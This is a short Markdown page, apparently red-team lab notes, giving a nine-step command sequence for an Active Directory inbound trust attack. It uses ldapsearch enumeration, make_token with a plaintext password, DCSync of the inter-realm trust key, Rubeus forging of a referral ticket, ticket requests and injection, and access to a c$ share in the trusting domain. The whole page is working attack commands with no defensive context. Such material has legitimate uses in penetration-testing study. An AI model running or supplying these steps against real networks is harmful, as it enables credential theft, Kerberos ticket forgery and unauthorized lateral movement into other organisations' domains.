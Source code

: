 # Inbound Trust Attack

1.  \
    Enumerate the one-way trust.

    ```batch
    ldapsearch (objectClass=trustedDomain) --attributes trustDirection,trustPartner,trustAttributes,flatname
    ```
2.  Enumerate the Foreign Security Principals Container.

    ```batch
    ldapsearch (objectClass=foreignSecurityPrincipal) --attributes cn,memberOf --hostname partner.com --dn DC=partner,DC=com
    ```
3. Identify an interesting SID.
   1. `ldapsearch (objectSid=[SID])`
4. DCSync the shared inter-realm key.
   1. `make_token CONTOSO\dyork Passw0rd!`
   2. `dcsync contoso.com CONTOSO\PARTNER$`
   3. `rev2self`
5.  On the Attacker Desktop, forge a referral ticket.

    ```batch
    C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /user:pchilds /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /id:1105 /groups:513,1106,6102 /service:krbtgt/partner.com /rc4:[NTLM HASH] /nowrap
    ```
6.  Use the forged ticket to request service tickets for the trusting domain.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/par-jmp-1.partner.com /dc:par-dc-1.partner.com /ticket:[TICKET] /nowrap
    ```
7.  Inject the service ticket into the current logon session.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:[TICKET]
    ```
8. Verify the ticket was injected.
   1. `run klist`
9. Access the service in the trusting domain.
   1. `ls \\par-jmp-1.partner.com\c$`

\
